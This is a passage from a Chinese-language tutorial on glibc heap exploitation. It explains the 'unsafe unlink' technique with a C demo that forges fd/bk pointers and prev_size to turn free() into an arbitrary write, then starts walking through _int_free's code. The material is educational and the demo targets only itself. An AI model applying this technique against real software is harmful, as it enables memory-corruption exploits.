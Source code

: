 ```
0x602240:	0x0000000000000000	0x0000000000000000
0x602250:	0x0000000000000000	0x0000000000020db1
0x602260:	0x0000000000000000	0x0000000000000000
```

&emsp;&emsp;<font size=2>那么对这个demo的分析完成了，接下来我们来介绍unsafe-unlink是怎么利用这个unlink宏达到攻击效果的。查看如下demo代码：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>

unsigned long chunk_link[0x10];

int main()
{
	void *p1,*p2;
	unsigned long* ptr;

	p1=malloc(0x100);
	p2=malloc(0x100);
	malloc(0x20);

  //记录这些堆块
	chunk_link[0]=p1;
	chunk_link[1]=p2;

  //伪造fd和bk
	ptr=(unsigned long*)p1;
	*(ptr+2)=(unsigned long)&chunk_link[0]-0x18;
	*(ptr+3)=(unsigned long)&chunk_link[0]-0x10;

  //伪造pre_size并抹掉prev_inuse位
	ptr=(unsigned long*)p2;
	*(ptr-2)=0x100;
	*(ptr-1)=0x110;
  //unlink修改了chunk_link记录的堆块指针
	free(p2);

  //任意地址写
	read(0,chunk_link[0],0x20);
	read(0,chunk_link[0],0x20);

	return 0;
}
```

&emsp;&emsp;<font size=2>这是一段模拟了unsafe-unlink攻击导致可以任意地址写的代码，假如有一个读书笔记模拟程序，该程序可能通过malloc分配的堆块记录你写的笔记，然后你可以对你之前写的笔记重新进行修改（相当于之前分配的堆块），那么可能就会有一个全局变量保存了每个堆块的地址以方便下次进行写入读取。接下来我们开始我们的正片，伪造fd，bk后再伪造下一个堆块的pre_size和prev_inuse位！然后我们将跟踪`free(p2);`这个函数来分析unsafe-unlink是如何发生的，老样子，直接从_int_free的核心代码开始看起：</font></br>

```C
    /* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = p->prev_size;
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      unlink(av, p, bck, fwd);
    }
```
